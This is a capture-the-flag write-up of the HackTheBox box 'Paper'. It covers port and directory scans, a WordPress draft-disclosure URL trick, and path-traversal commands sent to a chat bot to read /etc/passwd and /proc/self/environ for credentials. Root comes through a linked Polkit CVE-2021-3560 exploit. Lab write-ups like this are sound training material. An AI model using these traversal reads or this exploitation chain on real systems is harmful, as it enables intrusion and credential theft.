 # @Author : M3tr1c_r00t
## Paper!
![Paper](https://user-images.githubusercontent.com/99975622/207163312-7f2ee8ee-ae72-40b6-aac2-d67468a1c143.png)
Paper is an easy box where we can exploit an Arbitrary File Read Vulnerability off Drafted posts from wordpress version 5.2.3 to get creds of the site and ssh as the given user and using linpeas to get root user....

### Enumeration
_**Nmap...**_
<br> There were 3 ports open on the box i.e 22, 80 and 443

```
# Nmap 7.92 scan initiated Tue Nov 22 19:22:44 2022 as: nmap -sC -sV -A -p 22,80,443 -oN nmapports.txt 10.129.136.31
Nmap scan report for 10.129.136.31
Host is up (0.77s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.10 - 4.11 (94%), Linux 5.1 (94%), HP P2000 G3 NAS device (93%), Linux 3.18 (93%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   538.70 ms 10.10.14.1
2   538.53 ms 10.129.136.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 22 19:23:54 2022 -- 1 IP address (1 host up) scanned in 70.12 seconds

```
On visiting the ip on port 80, we are redirected to host;
<br> **_office.paper_**
![Screenshot_2022-11-22_23_41_07](https://user-images.githubusercontent.com/99975622/207164883-bedc026b-765a-4d1f-b921-c8a807aff166.png)

<br>So , lets add that to our /etc/hosts file ...
![Screenshot_2022-11-22_23_44_09](https://user-images.githubusercontent.com/99975622/207164972-df0f6c1a-d85d-4ebe-9fc2-c71e25192e1d.png)

**_Gobuster/Directory Brute...._**
<br>Next up, i ran a gobusterscan using common.txt wordlists and found a directory "/manual" which reveals to us this is a wordpress site...
```
/.hta                [33m (Status: 403) [0m [Size: 199]
/.htaccess           [33m (Status: 403) [0m [Size: 199]
/.htpasswd           [33m (Status: 403) [0m [Size: 199]
/cgi-bin/            [33m (Status: 403) [0m [Size: 199]
/manual              [36m (Status: 301) [0m [Size: 236] [34m [--> http://10.129.136.31/manual/] [0m
```
On that note, I did a wordpress scan using wpscan and we find the version...
![Screenshot_2022-11-22_23_47_42](https://user-images.githubusercontent.com/99975622/207165581-762e5db0-8e57-4113-90a2-53f6447f51f4.png)

Since it's an older version of wordpress, we can search for vulnerabilities....
![Screenshot_2022-11-22_23_53_30](https://user-images.githubusercontent.com/99975622/207165703-56f6de83-0da4-4ba2-88a6-90303eb1e827.png)
And we can see that we can we can get this by adding _**"/?static=1&order=asc"**_ in the url to view the saved drafts...

![Screenshot_2022-11-22_23_53_54](https://user-images.githubusercontent.com/99975622/207166148-24b400c6-f540-4fce-8b9e-d0f8b6ebf829.png)

On doing so, we get an error. But if we get rid of the _**order=asc**_, it works!

![Screenshot_2022-11-22_23_54_04](https://user-images.githubusercontent.com/99975622/207166297-79ebc158-fb92-4105-8a31-367676f6d678.png)

Looking at the dumped drafts, we can see there's an Employee chat system...
![Screenshot_2022-11-22_23_54_18](https://user-images.githubusercontent.com/99975622/207166937-d747360d-338b-4833-8c59-acadcb0f460b.png)
We can visit the url and register...

![Screenshot_2022-11-22_23_55_46](https://user-images.githubusercontent.com/99975622/207166624-34188a3b-e19f-4d5b-aef0-5b31152fa758.png)
We're in....
![Screenshot_2022-11-22_23_57_30](https://user-images.githubusercontent.com/99975622/207167348-32c66759-2566-4f1d-9d29-cc675a13ca7f.png)

After going through the employee's chats, we note that there's a bot in the system set by the admin to run bash commands on the server to get and read files...
![Screenshot_2022-11-22_23_57_49](https://user-images.githubusercontent.com/99975622/207167510-3bb38186-365d-4c9c-a59b-40ccc4a0a5c6.png)
 

```
reclops file ../../../../../etc/passwd
```
we can run the code below to check on the system's environment...
```
reclops file ../../../../../proc/self/environ
```
And we get some creds...
![Screenshot_2022-11-23_00_07_14](https://user-images.githubusercontent.com/99975622/207168981-d6d69328-30d2-43e9-9877-df6c3faaa4d1.png)

<br> We can try to ssh as dwight and it works...
<br> You can get the user flag...
![Screenshot_2022-11-23_00_08_53](https://user-images.githubusercontent.com/99975622/207169064-b3e3d656-85be-4238-9a95-a67c76d92d60.png)

We can also run the script as below adding the environment in the environ directory...
```
reclops file ../../../../../proc/self/environ.env
```
![Screenshot_2022-11-23_00_07_35](https://user-images.githubusercontent.com/99975622/207169293-cb02a5c6-5861-41ea-9996-d1f60dd6e64e.png)

### Priv Esc...
![Screenshot_2022-11-23_00_11_16](https://user-images.githubusercontent.com/99975622/207170451-8e1ae662-4977-45cc-8cdf-05837c45c07f.png)

On running Linpeas, we realise that the system is vulnerable to _**"CVE-2021-3560"**_ (Polkit-Privilege-Esclation PoC)
```
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
```
Clone the script then upload it to the box...
<br>On running the script, it creates a new user secnigma:secnigmaftw (Check source code for the creds...) that can run any command as root...
![Screenshot_2022-11-23_00_27_05](https://user-images.githubusercontent.com/99975622/207170797-b1e22b18-0527-467c-93cc-a589cb5f2663.png)
Move to the user using su.
<br> Next you can run sudo bash and we're root!
![Screenshot_2022-11-23_00_27_27](https://user-images.githubusercontent.com/99975622/207170964-8a37950f-533c-4866-9c03-b160167d72c8.png)
Get your root flag and boom!
<br>Done!

### Socials
@Instagram : https://instagram.com/M3tr1c_r00t
<br>@Twitter : https://twitter.com/M3tr1c_root
